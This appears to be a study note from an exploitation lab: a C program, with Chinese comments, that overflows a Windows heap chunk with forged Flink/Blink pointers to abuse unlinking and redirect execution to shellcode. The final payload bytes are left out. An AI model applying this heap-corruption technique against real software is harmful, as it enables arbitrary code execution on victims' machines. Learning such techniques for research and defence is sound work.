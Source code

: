 ```C
#include <stdio.h>
#include <windows.h>
void main(){
   	char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
	"\x10\x01\x10\x00\x99\x99\x99\x99"  // 改为\x90没有影响 

     "\xEB\x06\x3A\x00" "\x00\x06\x3A\x00"
    //覆盖 Flink 和 Blink  , 拆链表的时候需要读写, 所以需要可读写
    // 0x3A06EB 即 Flink 控制 伪造chunk 的位置，
    //读取伪造chunk->Blink 即要向哪个地址写数据, 将地址写入旧chunk->Blink 
	//然后跳到EB 03x1 , 跳到shellcode  
    // 见图1
    
    "\x90\x90\x90\x90\x90\x90\x90\x90" 
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
    
    "\xEB\x31"//跳转指令，跳过下面的垃圾代码
        
    "\x90\x90\x90\x90\x90\x90"
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" //字节填充控制 伪造chunk位置
   
    "\x11\x01\x10\x00\x99\x99\x99\x99"  // 改为\x90没有影响 
    "AAAA"//伪造的 Flink 和 Blink   见图2 
    "\xE4\xFF\x12\x00"
    
	"\xFC\x68\x6A\x0A\x38\x1E\x68 ........ " // shellocde ;
	   
    HLOCAL h1,h2;
    HANDLE hp;
    int zero=0;
	hp = HeapCreate(0,0x1000,0x10000);
	__asm int 3
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	memcpy(h1,shellcode,300);
    h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
    zero=1/zero;
    printf("%d",zero);
}
```



图一：

![img_1](heap/img_1.png)



图2：

![img_2](heap/img_3.png)
